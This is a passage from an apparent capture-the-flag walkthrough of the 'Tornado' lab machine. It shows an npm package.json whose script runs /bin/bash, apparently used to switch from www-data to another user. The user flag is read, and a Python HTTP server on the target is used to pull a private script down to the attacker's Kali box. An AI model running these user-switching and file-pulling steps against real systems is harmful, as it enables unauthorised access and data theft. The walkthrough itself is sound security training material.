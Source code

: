     www-data@tornado:/tmp/exploit$ touch index.js
    www-data@tornado:/tmp/exploit$ cp index.js ./exploit
    www-data@tornado:/tmp/exploit$ cat package.json
    {
    "name": "packge",
    "version": "1.0.0",
    "description": "",
    "main": "index.js",
    "scripts": {
        "exploit": "/bin/bash"
    },
    "author": "",
    "license": "ISC"
    }

    catchme@tornado:/tmp$ id -a
    uid=1000(catchme) gid=1000(catchme) groups=1000(catchme),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev),111(bluetooth)

    catchme@tornado:~$ cd ~
    catchme@tornado:~$ ls -l
    total 8
    -rwx------ 1 catchme catchme 961 Dec 10  2020 enc.py
    -rw------- 1 catchme catchme  15 Dec 10  2020 user.txt
    catchme@tornado:~$ cat user.txt
    HMVkeyedcaesar

On the user's home directory there a python script. Let's download it to our local machine by opening a python http server on the remote machine.

    Local Machine

    root@kali ~/D/M/Tornado [SIGINT]# wget http://10.0.0.17:8080/enc.py
    --2022-08-06 11:56:22--  http://10.0.0.17:8080/enc.py
    Connecting to 10.0.0.17:8080... connected.
    HTTP request sent, awaiting response... 200 OK
    Length: 961 [text/plain]
    Saving to: ‘enc.py’

    enc.py                     100%[=======================================>]     961  --.-KB/s    in 0.01s   

    2022-08-06 11:56:22 (84.5 KB/s) - ‘enc.py’ saved [961/961]
>
    Remote Machine

    python3 -m http.server 8080
    Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/) ...
    10.0.0.27 - - [06/Aug/2022 21:26:22] "GET /enc.py HTTP/1.1" 200 -
>
    root@kali ~/D/M/Tornado# cat enc.py 
    s = "abcdefghijklmnopqrstuvwxyz"
    shift=0
    encrypted="hcjqnnsotrrwnqc"
    #
    k = input("Input a single word key :")
    if len(k) > 1:
            print("Something bad happened!")
            exit(-1)


[1]: "https://temp-mail.org/en/"
[2]: "https://linuxhint.com/sql-truncation-attack/"
[3]: "https://www.unix.com/man-page/linux/1/npm/"